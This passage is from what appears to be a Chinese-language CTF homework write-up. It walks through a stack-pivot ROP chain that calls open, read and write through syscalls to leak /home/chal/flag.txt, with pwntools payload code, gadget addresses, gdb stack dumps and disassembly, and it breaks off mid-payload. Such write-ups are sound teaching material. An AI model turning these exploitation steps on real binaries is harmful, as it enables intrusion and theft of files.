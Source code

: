     會這樣的原因是我們在ROPgadget中找不到`syscall ; ret`的gadget，所以助教提示可以直接從read / write這種function找，這樣syscall完了之後會很快的接到ret，這樣中間的操作才不會太影響我們蓋的rop
3. Construct ROP
    首先，我們的流程是
    ==main_fn → bss_open → main_fn → bss_open → main_fn → bss_write==
    會這樣的原因是我們只能寫入0x60的空間而已，所以把open / read / write分開寫，而寫完且執行完後會再跳原main_fn，這樣才能讓我們再讀取下一段的ROP payload
    1. 寫入的bss_addr和main_fn address
        ```python
        bss_addr_open = 0x4c2700
        bss_addr_read = 0x4c2800
        bss_addr_write = 0x4c2900
        main_fn = 0x401ce1
        ```
    1. 先讓rbp跳到bss_open，然後ret到main_fn，接要放到bss_open的payload
        ```python
        trash_payload = b'a'*0x20
        r.sendline(trash_payload + p64(bss_addr_open) + p64(main_fn))
        ```
        之前的rop chain我們會把RBP一起蓋掉，但現在因為要跳到其他的地方，所以rbp的部分就跳到`0x4c2700`，然後ret address接main_fn
        用gdb跟一下，放完的結果大概是這樣
        ```bash
        0x00007ffc884f3670│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"   ← $rsp, $rsi
        0x00007ffc884f3678│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaa"
        0x00007ffc884f3680│+0x0010: "aaaaaaaaaaaaaaaa"
        0x00007ffc884f3688│+0x0018: "aaaaaaaa"
        0x00007ffc884f3690│+0x0020: 0x00000000004c2700  →  <transmem_list+0> add BYTE PTR [rax], al      ← $rbp
        0x00007ffc884f3698│+0x0028: 0x0000000000401ce1  →  <main+12> lea rax, [rbp-0x20]
        ```
        當main_fn執行完leave(`mov rsp , rbp ; pop rbp ;`)的時候，rbp就會指到==0x4c2700==，當我們ret到main_fn時，就可以再次輸入payload放到0x4c2700
    2. 觀察main_fn的assembly
        ```bash
        gef➤  x/10i &main
           0x401cd5 <main>:     endbr64
           0x401cd9 <main+4>:   push   rbp
           0x401cda <main+5>:   mov    rbp,rsp
           0x401cdd <main+8>:   sub    rsp,0x20
           0x401ce1 <main+12>:  lea    rax,[rbp-0x20]
           0x401ce5 <main+16>:  mov    edx,0x80
           0x401cea <main+21>:  mov    rsi,rax
           0x401ced <main+24>:  mov    edi,0x0
           0x401cf2 <main+29>:  call   0x448270 <read>
           0x401cf7 <main+34>:  mov    eax,0x0
        ```
        從以上的code可以看得出來，我們是跳到0x401ce1，所以rbp會張出0x20的空間，也就是==0x4c2700-0x20=0x4c26e0==，然後read到的內容就會放到這邊來
    3. 寫入bss_addr_open
        我們的目標是達成==fd = open("/home/chal/flag.txt", 0);==，具體payload如下
        ```python
        file_addr = b'/home/chal/flag.txt'.ljust(0x20, b'\x00')
        ROP_open = flat(
            # Open file
            # fd = open("/home/chal/flag.txt", 0);
            bss_addr_read,
            pop_rax_ret,    2,
            pop_rdi_ret,    bss_addr_open - 0x20,
            pop_rsi_ret,    0,
            pop_rdx_ret,    0,
            syscall_ret,
            main_fn